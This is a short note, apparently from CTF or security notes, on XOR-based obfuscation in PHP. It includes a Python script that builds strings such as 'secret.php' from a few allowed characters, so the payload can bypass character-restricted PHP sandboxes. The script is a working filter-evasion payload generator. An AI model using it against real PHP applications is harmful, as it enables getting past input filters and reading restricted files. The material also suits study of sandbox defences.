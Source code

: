 # PHP Fuck

So in php when some characters are restricted we can basically XOR the allowed characters to create new characters.
eg: echo '{'^'?' gives 'D'. This can be used to bypass a lot of PHP sandboxes.

The following script generates the payload using only 4 chars

```py
from itertools import combinations
 
charset = "()^;'.\\"
 
elements = {}
 
def arr_to_str(arr):
    res = ""
    for c in arr:
        if c == "\\":
            res += "'\\\\'"
        elif c == "'":
            res += "'\\\''"
        else:
            res += f"'{c}'"
        res += '^'
    return res[:-1]
 
for i in range(1, len(charset)+1):
    for arr in list(combinations(charset, i)):
        res = ""
        for c in arr:
            if res == "":
                res = c
                continue
            res = chr(ord(res) ^ ord(c))
 
        elements[res] = arr_to_str(arr)
 
elements = sorted(elements.items(), key=lambda x: x[0])
elements = dict(elements)
 
#for k, v in elements.items():
#    print(f"{str.ljust(k, 40)} -> {v}")
 
target_string = "secret.php"
 
output = ""
 
for i in target_string:
    output += f"({elements[i]})."
 
print(output[:-1])
```